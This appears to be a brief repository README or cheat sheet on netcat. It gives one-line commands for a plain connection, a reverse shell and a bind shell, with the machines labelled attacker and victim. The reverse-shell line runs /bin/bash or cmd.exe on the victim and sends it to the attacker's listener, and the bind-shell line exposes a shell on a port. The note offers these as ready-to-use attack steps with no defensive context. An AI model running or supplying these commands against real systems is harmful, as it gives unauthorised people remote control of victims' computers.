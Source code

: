 # How to use?
- nc IP_ADDRESS PORT
	- ie. nc 192.168.86.147 13337

# Reverse Shell
- nc -nvlp PORT >> this goes in your machine (attaker)
- nc IP_ADDRESS PORT -e /bin/bash >> this goes in the other computer (victim)
	- cmd.exe or c:\Windows\system32\cmd.exe

# Bind shell
- nc -nvlp PORT -e /bin/bash >> this goes in the other computer (victim)
- nc IP_ADDRESS PORT


